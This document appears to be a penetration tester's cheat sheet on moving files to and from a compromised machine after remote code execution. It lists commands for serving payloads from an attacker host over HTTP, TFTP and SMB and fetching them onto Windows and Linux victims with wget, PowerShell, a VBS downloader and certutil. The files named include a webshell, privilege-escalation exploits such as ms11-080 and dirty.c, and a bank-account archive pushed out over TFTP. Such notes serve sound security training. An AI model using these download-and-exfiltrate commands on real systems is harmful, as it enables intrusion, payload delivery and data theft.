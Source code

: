 # Serving up code
Once we have RCE, we can sometimes want to serve up files or code to download and execute
on the victim (e.g., webshell)

#### HTTP
```sudo service apache2 start
/var/www/html
wget http://192.168.1.42/go.exe
```

#### SIMPLE HTTP
```python SimpleHTTPServer.py```

Will serve up on port 8000 in the folder you run the script from

#### TFTP
```
atftpd --daemon --port 69 /tftp
cd /tftp touch incoming chmod 777 incoming
tftp -i 10.11.0.185 GET test.txt
tftp -i 10.11.0.185 PUT bank-account.zip incoming
```

#### SMB
```
smbserver.py [sharename] /tmp/smbserve/
Dir \\192.168.1.48\sharename
\\192.168.1.48\sharename\go.exe
```





# File Transfer - Windows
``tftp -i 10.11.0.185 GET test.txt``

```cscript wget.vbs http://10.11.0.158/ms11-080.exe -O C:\lec\ms11-080.exe```
#### Powershell 2
```(new-object System.Net.WebClient).Downloadfile("http://10.11.0.185/accesschk.exe", "C:\lec\accesschk.exe")```

#### Powershell 3
```Invoke-WebRequest "http://10.11.0.130/adfsys.exe" -OutFile "adfsys.exe"```

#### SimpleSMBServer
```smbserver.py lecon /var/www/html```

#### SimpleHTTPServer
```python -m SimpleHTTPServer```

#### FTP


# Linux
```wget http://10.11.0.158/dirty.c -O /tmp/dirty.c```

```scp root@10.11.0.158:~/Downloads/dirty.c .```








#### Windows lol
[BitsAdmin ](https://lolbas-project.github.io/lolbas/Binaries/Bitsadmin/)

```certutil -urlcache -split -f "http://<LHOST>/<FILE>" <FILE>```
